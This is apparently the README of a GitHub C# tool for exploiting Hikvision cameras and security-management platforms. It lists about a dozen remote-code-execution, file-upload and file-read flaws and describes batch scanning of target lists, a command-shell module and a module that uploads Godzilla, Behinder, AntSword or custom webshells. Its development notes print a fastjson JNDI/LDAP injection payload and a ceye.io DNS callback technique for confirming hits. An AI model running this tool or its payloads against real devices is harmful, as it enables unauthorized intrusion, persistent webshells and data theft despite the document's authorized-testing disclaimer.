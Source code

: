# Hikvision综合漏洞利用工具

没事写个工具，
程序采用C#开发,
首次使用请安装依赖：
NET8.0
声明：仅用于授权测试，用户滥用造成的一切后果和作者无关
请遵守法律法规！

https://dotnet.microsoft.com/zh-cn/download

海康威视综合漏洞利用工具 收录漏洞如下：

Hikvision 摄像头未授权访问漏洞

Hikvision 远程代码执行漏洞

Hikvision iVMS综合安防系统任意文件上传漏洞

Hikvision综合安防管理平台isecure center文件上传漏洞

Hikvision综合安防管理平台config信息泄露漏洞

Hikvision综合安防管理平台env信息泄漏漏洞

Hikvision综合安防管理平台report任意文件上传漏洞

Hikvision综合安防管理平台api session命令执行漏洞

Hikvision applyCT命令执行漏洞

Hikvision applyAutoLoginTicket命令执行漏洞

Hikvision keepAlive远程代码执行漏洞

Hikvision综合安防管理平台orgManage任意文件读取漏洞

Hikvision综合安防管理平台files任意文件读取漏洞

# 功能介绍

批量检测模块：

模块如下：Hikvision 远程代码执行漏洞

Hikvision iVMS综合安防系统任意文件上传漏洞

Hikvision综合安防管理平台isecure center文件上传漏洞

Hikvision综合安防管理平台config信息泄露漏洞

Hikvision综合安防管理平台api session命令执行漏洞

Hikvision综合安防管理平台env信息泄漏漏洞

Hikvision applyAutoLoginTicket命令执行漏洞

webshell利用模块
Hikvision iVMS综合安防系统任意文件上传漏洞

Hikvision综合安防管理平台isecure center文件上传漏洞

Hikvision综合安防管理平台report任意文件上传漏洞

cmshell命令执行模块
Hikvision 远程代码执行漏洞

Hikvision综合安防管理平台api session命令执行漏洞

Hikvision applyAutoLoginTicket命令执行漏洞

# 功能使用

默认模块可一键扫描所有漏洞

![image](https://github.com/MInggongK/Hikvision-/blob/main/e10adc3949ba59abbe56e057f20f883e.jpg)

选择模块可单独选择你要检测的模块，输入目标，点击选择模块即可检测漏洞

批量检测内置路径：/hikvision.txt
hikvision.txt文本放入你要检测的网站列表
默认批量检测，批量扫描所有模块的漏洞

选择模块，可单独选择你要检测的模块，点击选择模块即可

Cmdshell模块：
选择模块进行漏洞验证，如果存在，在cmdshell输入你要执行的命令即可

webshell利用模块：

内置Godzilla
Behinder
AntSword
cmd
四种类型的shell
一个测试文件

具体使用方法：选择模块进行验证
如isecure center
如果漏洞存在
可选择内置类型，如测试文件
点击getshell isecure上传即可



自定义上传
如果存在isecure漏洞
可自定义shell代码，
选择自定义模块
如自定义isecure
填入你要的shell代码，文件名，如demo.jsp
点击自定义上传即可

# 编写小记
Hikvision applyCT ceye api精准识别技巧
目前已取消，考虑到批量识别可能会阻塞网络，因此没有采取这个方法
{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://"\",\"autoCommit\":true},\"hfe4zyyzldp\":\"=\"}
默认
默认插入POST json数据进行测试
访问api:
查找id:
id	"1870408864"
这里存在一个问题
如果dns缓存不清除，可能存在误判
{"meta": {"code": 200, "message": "OK"}, "data": [{"id": "1870408864", "name": "", "remote_addr": 
这里会造成误判，DNS缓存清除需要cookie
那么怎么不使用COOKIE解决这个问题呢？
可以直接在调用前，产生随机数
   Random random = new Random();
    int randomNumber = random.Next(1, 100); // 生成一个1到100之间的随机整数
   Console.WriteLine(randomNumber);
然后进行拼接：然后直接赋给   randomNumber + "." + textBox4.Text;
这样每一次生成都是会递增的循环产生随机数
如9090.38.22.xxxx.ceye.io
2222.9090.38.22.xxxx.ceye.io
3422342.9090.38.22.xxxx.ceye.io
通过访问API token,会查找ID值进行判断
http://api.ceye.io/v1/records?token=“token&type=dns&filter=
  if (s.Contains(3422342.9090.38.22.xxxx.ceye.io))
   {
比对发出的请求：
如96.93.13.4.90.38.22.2skv3a.ceye.io
没发出一次，自动生成1次，这样就判断精准了
取随机不断的递增，再递增去比较存在的值
如果找到，就存在漏洞，否则漏洞不存在
但是这个只适用于单个识别，批量识别还需要写另外验证方法

# 更新日志

Hikvision综合漏洞利用工具 v1.7版

增加了批量指纹识别功能

默认识别Server识别

set-Cookie识别

放入你要检测的批量网站，点击识别即可,

增加了Hikvision综合安防管理平台orgManage任意文件读取漏洞检测（含批量检测）
增加了Hikvision综合安防管理平台files任意文件读取漏洞检测（含批量检测）
感谢ling1uan提到的issues问题，修复了report漏洞构造请求体的Bug












